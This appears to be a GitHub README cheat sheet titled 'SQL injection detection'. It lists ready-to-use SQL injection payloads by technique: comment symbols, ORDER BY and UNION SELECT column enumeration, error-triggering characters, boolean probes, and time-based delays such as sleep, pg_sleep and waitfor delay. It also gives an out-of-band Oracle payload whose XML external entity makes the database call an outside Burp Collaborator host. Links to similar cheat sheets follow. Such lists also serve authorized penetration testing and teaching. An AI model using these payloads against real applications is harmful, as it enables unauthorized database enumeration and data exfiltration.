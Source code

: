 <h1>SQL injection detection</h1>

# IN BAND (Classic)
###########################################################################################################

# UNION BASED

"--" Symbol Alternative
```
— 	Inline comment
#	Inline comment
/* 	Block comment
*/ 	Block comment
```
Column enumeration 

======================================================================================================================================================================
Method 1
```
ORDER BY 1 --+
ORDER BY 2 --+
ORDER BY 3 --+
ORDER BY 4 --+
ORDER BY 5 --+
ORDER BY 6 --+
ORDER BY 7 --+
ORDER BY 8 --+
ORDER BY 9 --+
ORDER BY 10 --+
ORDER BY 11 --+
.....
```

=======================================================================================================================================================================
 ORDER BY 1 --+   
 Alternative :  ' ORDER BY 1 --+ ; " ORDER BY 1 --+ ;

Method 2

```
UNION SELECT NULL --+
UNION SELECT NULL,NULL --+
UNION SELECT NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
...
```
==================================================================================================================

Method 3

```
UNION SELECT 1 --+
UNION SELECT 1,2 --+
UNION SELECT 1,2,3 --+
UNION SELECT 1,2,3,4 --+
UNION SELECT 1,2,3,4,5 --+
UNION SELECT 1,2,3,4,5,6 --+
UNION SELECT 1,2,3,4,5,6,7 --+
UNION SELECT 1,2,3,4,5,6,7,8 --+
UNION SELECT 1,2,3,4,5,6,7,8,9 --+
UNION SELECT 1,2,3,4,5,6,7,8,9,10 --+
UNION SELECT 1,2,3,4,5,6,7,8,9,10,11 --+ ..........................................................................
..........
```

==========================================================================================================================

ERROR BASED

``` '
''
`
``
,
"
""
/
//
\
\\
;
...
```
BOOLEAN BASED
```
1 AND 1
2 OR 3
2-1
2^1
3*1
%15
1=2
1>2
3
.....
```
TİME BASED
```
sleep(5)
pg_sleep(5)
waitfor delay '0:0:5'
BENCHMARK(10000000,rand())
....
```
OUT-OF-BAND
```
'+UNION+SELECT+EXTRACTVALUE(xmltype('<?xml+version="1.0"+encoding="UTF-8"?><!DOCTYPE+root+[+<!ENTITY+%+remote+SYSTEM+"http://BURP-COLLABORATOR-SUBDOMAIN/">+%remote;]>'),'/l')+FROM+dual--
```
Other Resources:
https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/
https://www.securityidiots.com/Web-Pentest/SQL-Injection/XPATH-Error-Based-Injection-Extractvalue.html
https://brightsec.com/blog/error-based-sql-injection/#:~:text=What%20Is%20Error%2DBased%20SQL,actor%20of%20the%20database's%20structure
https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/MSSQL%20-%20Error%20Based%20SQLi/README.md
https://www.exploit-db.com/docs/english/41273-mysql-out-of-band-hacking.pdf
https://www.pwc.com.tr/tr/assets/pdf/out-of-band-oob-sql-injection.pdf
https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&ved=2ahUKEwj-ir6t7bCCAxX_FRAIHVEdCXU4ChAWegQIBRAB&url=https%3A%2F%2Fzenodo.org%2Frecord%2F3556347%2Ffiles%2FA%2520Study%2520of%2520Out-of-Band%2520SQL%2520Injection.pdf%3Fdownload%3D1&usg=AOvVaw0hGkiklfL04cE-qOCuEaPa&opi=89978449
https://www.w3schools.com/sql/sql_comments.asp
